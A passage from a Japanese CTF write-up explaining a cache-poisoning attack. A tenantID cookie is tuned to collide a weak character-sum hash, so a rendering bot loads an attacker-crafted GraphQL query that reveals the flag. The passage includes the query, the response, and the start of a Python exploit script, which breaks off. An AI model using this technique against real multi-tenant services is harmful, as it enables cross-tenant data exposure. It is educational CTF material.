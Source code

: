 `tenantID`はクッキーを編集することによって自由に指定可能である。`"d15293ae32151343d3a893f1c0417f664d573ae322394c44ce30b002ad6e22c9" + <ユーザーAのtenantID>`と`<実際に贈りたいクエリのハッシュ> + <ユーザーBのtenantID>`の`<文字コードの和> % 5000`の値が一致するようにtenantIDを調整することにより、ハッシュを衝突させることができる。そして、ユーザーAでレンダリングを行うことにより、レンダリングする際のBOTが自分が生成したクエリを読み込むようにできる。

ストーリーの`text`はテンプレート機能のようなものがあり、これを利用してクエリの結果を描画することができる。

```typescript:frontend/src/components/story.tsx
const text = props.fields
  ? template.replace(/{{(.*?)}}/g, (_, key) => props.fields[key] ?? "")
  : template;
```

textが`{{flag}}`であるようなストーリーを作成したあと、次のようなクエリを送る。($idはそのストーリーのID)
```
query Q($id: Int!){ 
    flag
    story(id: $id) {
        id
        text
        image {
            url
        }
    }
}
```

すると次のような結果が帰ってくる
```json
{
  "data":{
    "flag":"CTE24{flag}",
    "story":{
      "id":3,
      "text":"{{flag}}",
      "image":{
        "url":"/images/2"
      }
    }
  }
}
```

レンダリング時に`text`は置き換えられて、`CTE24{flag}`となる。これをキャッシュポイズニングを利用してBOTに読み込ませることができれば、レンダリング結果にフラグが表示される。


### 最終的なコード
```python
import hashlib
import requests
import time

# URL = "https://378efb45-ee84-4695-a990-dc6042a26a48.x3c.tf:1337/"
URL = "http://13.230.77.32:8080/"


def sendGraphql(query, s, variables={}, extensions={}):
    return s.post(
        URL + "api/graphql",
        json={"query": query, "variables": variables, "extensions": extensions},
    )


s1 = requests.session()
s1.cookies["tenantID"] = "azzzz"
target_hash = "d15293ae32151343d3a893f1c0417f664d573ae322394c44ce30b002ad6e22c9"
char_sum = sum([ord(c) for c in target_hash + s1.cookies["tenantID"]])

```